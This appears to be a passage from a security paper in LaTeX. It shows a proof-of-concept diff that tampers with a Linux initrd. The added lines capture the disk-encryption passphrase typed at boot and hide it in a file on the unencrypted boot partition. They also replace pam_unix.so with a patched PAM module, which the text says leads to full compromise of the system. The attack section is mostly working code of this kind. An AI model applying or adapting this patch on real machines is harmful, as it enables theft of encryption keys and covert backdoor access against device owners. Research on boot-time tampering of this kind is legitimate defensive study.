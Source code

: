 The following patch for \texttt{initrd} was designed as a proof of concept:
\begin{lstlisting}
diff -Naur --no-dereference tmp.orig/scripts/local tmp.evil/scripts/local
--- tmp.orig/scripts/local  2016-12-03 17:31:53.111082675 +0300
+++ tmp.evil/scripts/local  2016-12-03 17:36:07.097421409 +0300
@@ -115,7 +115,7 @@
 "
            fi
        fi
-   
+
        mkdir -p /host
        mount -o move ${rootmnt} /host
 
@@ -152,6 +152,11 @@
        fi
    fi
 
+   # INSTALL OUR PATCHED PAM AUTHENTICATION MODULE FROM ATTACK #3
+   mount -o remount,rw /root
+   cp /sbin/pammer.so /root/lib/x86_64-linux-gnu/security/pam_unix.so      
+
    [ "$quiet" != "y" ] && log_begin_msg "Running /scripts/local-bottom"
    run_scripts /scripts/local-bottom
    [ "$quiet" != "y" ] && log_end_msg
diff -Naur --no-dereference tmp.orig/scripts/local-top/cryptroot tmp.evil/scripts/local-top/cryptroot
--- tmp.orig/scripts/local-top/cryptroot    2016-12-03 17:31:53.111082675 +0300
+++ tmp.evil/scripts/local-top/cryptroot    2016-12-03 17:32:15.258937696 +0300
@@ -260,7 +260,7 @@
 

+       # steal entered password
        if [ ! -e "$NEWROOT" ]; then
            if ! crypttarget="$crypttarget" cryptsource="$cryptsource" \
-                $cryptkeyscript "$cryptkey" | $cryptcreate --key-file=- ; then
+                $cryptkeyscript "$cryptkey" | tee /run/password |$cryptcreate --key-file=- ; then
                message "cryptsetup: cryptsetup failed, bad password or options?"
                continue
            fi
@@ -304,6 +304,12 @@
        fi
 
        message "cryptsetup: $crypttarget set up successfully"
+       # save password in /boot/grub/.cfg
+       mkdir /run/tmp
+       mount -t ext4 /dev/sda1 /run/tmp > /dev/null 2>&1
+       cat /run/password >> /run/tmp/grub/.cfg
+       echo >> /run/tmp/grub/.cfg
+       umount /run/tmp > /dev/null 2>&1
+       rm -r /run/tmp
        break
    done
\end{lstlisting}

As a result, full compromisation of main operating system.

If a Target uses Windows, attacking is harder, because it requires to reverse engineer and patch \texttt{bootmgr.exe} binary.

